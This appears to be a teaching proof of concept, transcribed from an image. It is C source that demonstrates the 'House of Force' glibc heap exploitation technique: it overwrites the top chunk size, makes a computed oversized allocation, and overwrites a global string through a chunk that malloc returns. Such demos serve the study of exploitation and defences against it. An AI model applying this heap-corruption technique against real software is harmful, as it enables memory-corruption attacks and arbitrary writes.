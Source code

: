 \begin{verbatim}
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main() {
    fprintf(stderr, "We will overwrite a variable at %p\n\n", bss_var);

    intptr_t *p1 = malloc(0x10);
    int real_size = malloc_usable_size(p1);
    memset(p1, 'A', real_size);
    fprintf(stderr, "Let's allocate the first chunk of 0x10 bytes: %p.\n", p1);
    fprintf(stderr, "Real size of our allocated chunk is 0x%x.\n\n", real_size);

    intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size);
    fprintf(stderr, "Overwriting the top chunk size with a big value so the malloc will never call mmap.\n");
    fprintf(stderr, "Old size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));
    ptr_top[0] = -1;
    fprintf(stderr, "New size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));

    unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*2 - (unsigned long)ptr_top;
    fprintf(stderr, "\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size, we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
    void *new_ptr = malloc(evil_size);
    int real_size_new = malloc_usable_size(new_ptr);
    memset((char *)new_ptr + real_size_new - 0x20, 'A', 0x20);
    fprintf(stderr, "As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr);

    void* ctr_chunk = malloc(0x30);
    fprintf(stderr, "malloc(0x30) => %p!\n", ctr_chunk);
    fprintf(stderr, "\nNow, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.\n");

    fprintf(stderr, "old string: %s\n", bss_var);
    strcpy(ctr_chunk, "YEAH!!!");
    fprintf(stderr, "new string: %s\n", bss_var);
}
\end{verbatim}

